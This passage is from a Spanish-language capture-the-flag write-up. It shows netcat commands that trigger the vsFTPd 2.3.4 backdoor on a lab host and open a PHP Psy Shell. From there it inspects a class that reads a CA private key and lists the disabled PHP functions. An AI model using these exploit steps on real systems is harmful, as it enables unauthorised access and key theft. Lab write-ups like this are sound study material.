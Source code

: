 --------------------------
# PHP Shell

Si nos vamos al puerto ftp, sabemos que esa versión en concreto es vulnerable a una backdoor en el puerto 6200 si mandas el usaurio con una carita `:)`

```bash
$: nc -nv 10.10.10.131 21
(UNKNOWN) [10.10.10.131] 21 (ftp) open
220 (vsFTPd 2.3.4)
USER cucuxii:)
331 Please specify the password.
PASS :)

$: nc -nv 10.10.10.131 6200
(UNKNOWN) [10.10.10.131] 6200 (?) open
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman

ls
Variables: $tokyo

dump $tokyo
Tokyo {#2307}

echo $tokyo;
PHP Recoverable fatal error:  Object of class Tokyo could not be converted to string in phar://eval() decode on line 1

show $tokyo
  > 2| class Tokyo {
    3| 	private function sign($caCert,$userCsr) {
    4| 		$caKey = file_get_contents('/home/nairobi/ca.key');
    5| 		$userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6| 		openssl_x509_export($userCert, $userCertOut);
    7| 		return $userCertOut;
    8| 	}
    9| }
```
Podemos correr ciertos comandos de php
```php
echo 3 + 3;
6⏎

system("whoami");
PHP Fatal error:  Call to undefined function system() in Psy Shell code on line 1

phpinfo()
PHP Version => 7.2.10
disable_functions => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```
